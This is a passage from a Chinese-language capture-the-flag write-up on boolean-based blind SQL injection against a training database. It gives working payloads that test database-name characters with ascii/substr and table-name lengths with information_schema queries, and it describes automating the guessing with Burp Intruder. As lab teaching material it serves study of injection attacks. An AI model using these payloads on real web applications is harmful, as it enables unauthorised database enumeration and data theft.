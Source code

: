 ![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732070032879-81b56711-4443-4b06-ac9f-2df331ffb462.png)

**再看看这个字符的 ascii 码是大于 100 的吗?不是**

```sql
?id=1' and ascii(substr((select group_concat(schema_name) from information_schema.schemata),1,1))>100--+
```

**多次实验，得到第一个字符的 ascii 值为 99**

```sql
?id=1' and ascii(substr((select group_concat(schema_name) from information_schema.schemata),1,1))=99--+
?id=1' and ascii(substr((select group_concat(schema_name) from information_schema.schemata),1,1))=20--+
```

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732070327459-2f2a4967-5886-4c45-867b-686f5616a251.png)

**但是这样搞效率太慢了，试试 burp 爆破**

**先抓包，然后在这个地方添加位置**

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732091256400-7297b7ee-c1e2-4909-aa9c-07fe71363694.png)

**然后添加 payload 格式**

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732092145130-8f248477-7c85-44c7-b151-bb24f5131415.png)

**可以再加个内容匹配或者不加**

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732091412706-cee6376e-5dba-4e2c-adde-ff8c5110ddea.png)

**最后结果，第一个字符 ascii 码值为 99**

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732091459921-fc74eebe-bd24-40bd-9ef8-ebc7c5d312d0.png)

**之后再尝试其他位置，这样也好麻烦，而且最后还要转换为字符。**

**或者用脚本，也有点慢，5，6 分钟（还是推荐字符串长度用手注，具体内容再用脚本）**

**现在拿到了具体内容，如下。（脚本会在这题末尾粘出来）**

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732074714652-9b1e984e-78e1-41a7-9ba6-f40d07113889.png)

###### 判断需要的数据库的所有表的长度
**手注格式**

```sql
?id=1' and length((select group_concat(table_name) from information_schema.tables where table_schema="ctftraining"))=14--+
```

脚本遍历一下，共 15 个字符

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732092510928-87784244-42f2-44ea-bd07-0e84e9f6b844.png)
